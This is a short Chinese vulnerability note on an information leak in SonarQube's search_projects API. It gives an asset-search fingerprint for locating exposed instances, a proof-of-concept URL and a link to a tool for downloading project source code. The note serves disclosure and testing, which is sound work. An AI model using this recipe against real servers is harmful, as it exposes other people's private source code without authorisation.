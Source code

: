 # SonarQube search_projects 项目信息泄露漏洞

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以通过工具下载源码

## 漏洞影响

```
SonarQube
```

## 网络测绘

```
app="sonarQube-代码管理"
```

## 漏洞复现

主页如下



![img](./images/202202101932489.png)



漏洞POC



```plain
http://xxx.xxx.xxx.xxx/api/components/search_projects
```

![img](./images/202202101932452.png)

可通过工具下载项目中的源代码 



https://github.com/deletescape/sloot

![img](./images/202202101932586.png)